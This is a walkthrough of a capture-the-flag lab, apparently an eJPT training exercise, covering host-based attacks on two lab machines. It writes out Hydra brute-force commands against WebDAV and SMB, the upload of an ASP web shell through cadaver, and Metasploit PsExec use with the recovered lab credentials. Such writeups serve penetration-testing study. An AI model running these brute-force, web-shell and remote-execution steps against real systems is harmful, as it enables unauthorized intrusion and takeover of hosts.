





# Host & Network Penetration Testing: System-Host Based Attacks CTF 1 Walkthrough

## Overview

This walkthrough documents the methodology used to solve the **System-Host Based Attacks CTF 1** Skill Check Lab from the eJPT course. The objective was to perform host-based attacks against two target systems and capture four flags hidden throughout the environment.

> **Disclaimer:** This writeup is intended for educational purposes only and was conducted in an authorized training environment provided by INE/eLearnSecurity.

---

# Lab Environment

Two target systems were available:

* `target1.ine.local`
* `target2.ine.local`

## Useful Files

```text
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
/usr/share/webshells/asp/webshell.asp
```

## Objectives

| Flag | Objective |
|--------|-----------|
| Flag 1 | Gain access using weak credentials and retrieve the flag from target1 |
| Flag 2 | Explore the C: drive on target1 and locate the flag |
| Flag 3 | Enumerate SMB credentials on target2 and retrieve the next flag |
| Flag 4 | Enumerate the Administrator Desktop on target2 and capture the final flag |

---

# Target 1 Enumeration

The first step was to identify potential attack vectors exposed by the target.

After initial reconnaissance, it became apparent that the target was exposing a **WebDAV** service.

The lab hint specifically mentioned that user **bob** may have chosen a weak password.

---

# Flag 1 - Weak Password Attack

Since the username was already provided, password brute-forcing was performed using Hydra against the web service.

## Hydra Attack

```bash
hydra -l bob \
-P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
target1.ine.local http-get /
```

### Credentials Discovered

```text
Username: bob
Password: password_123321
```

### Screenshot



---

## Authentication

Using the discovered credentials, authentication to the WebDAV service was successful.

While enumerating the accessible files, a file named:

```text
flag.txt
```

was identified.

Reading the file revealed the first flag.

### Screenshot



---

# Testing WebDAV Upload Capabilities

After gaining access, the next step was determining whether file upload and code execution were possible.

## DAVTest Enumeration

```bash
davtest -url http://target1.ine.local/webdav
```

### Results

DAVTest confirmed that several file types could be uploaded successfully.

Most importantly, the server allowed execution of:

```text
ASP
TXT
HTML
```

This indicated that arbitrary ASP files could potentially be executed on the server.


# Flag 2 - WebDAV Exploitation

Since ASP execution was enabled, an ASP web shell was uploaded to the target.

## Connecting with Cadaver

```bash
cadaver http://target1.ine.local/webdav
```

## Uploading Web Shell

```bash
put /usr/share/webshells/asp/webshell.asp
```

After uploading the web shell, commands could be executed directly on the server.

### Enumerating the C Drive

```cmd
dir C:\
```

During enumeration, a flag file was discovered.

```cmd
type C:\flag.txt
```

The contents of the file revealed Flag 2.

### Screenshot



---

# Target 2 Enumeration

After completing the objectives on Target 1, attention shifted to Target 2.

Port scanning identified SMB services running on the target.

```text
445/tcp open microsoft-ds
```

Since the lab hint suggested credential guessing, SMB brute-force enumeration was performed.

---

# Flag 3 - SMB Credential Discovery

Hydra was used to enumerate valid SMB credentials.

## SMB Brute Force

```bash
hydra \
-L /usr/share/metasploit-framework/data/wordlists/common_users.txt \
-P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
smb://target2.ine.local
```


### Credentials Discovered

```text
Username: Administrator
Password: pineapple
```

### Screenshot



---

# Gaining Access via PsExec

With valid administrator credentials identified, the target was compromised using the Metasploit PsExec module.

## Metasploit

```bash
use exploit/windows/smb/psexec
```

### Configuration

```bash
set RHOSTS target2.ine.local
set SMBUser Administrator
set SMBPass pineapple
exploit
```

Successful exploitation returned a Meterpreter session running with administrative privileges.

---

## Capturing Flag 3

Once access was obtained, the C drive was enumerated.

```cmd
dir C:\
```

A flag file was discovered and read.

```cmd
type C:\flag.txt
```

Flag 3 successfully captured.

### Screenshot


---

# Flag 4 - Administrator Desktop Enumeration

With administrative privileges already obtained, further enumeration was performed.

The Administrator Desktop directory contained another flag file.

## Navigating to Desktop

```cmd
cd C:\Users\Administrator\Desktop
dir
```

A file named:

```text
flag.txt
```

was identified.

## Reading the Flag

```cmd
type flag.txt
```

The final flag was successfully captured.

### Screenshot



---

# Key Takeaways

This lab demonstrated several important offensive security concepts:

* Password brute-forcing using Hydra
* WebDAV enumeration and exploitation
* ASP web shell deployment
* SMB credential attacks
* Remote code execution using PsExec
* Windows post-exploitation techniques
* Enumeration methodology and attack chaining

The most important lesson from this lab is that weak credentials combined with exposed services such as WebDAV and SMB can quickly lead to full system compromise.

---


Happy Hacking!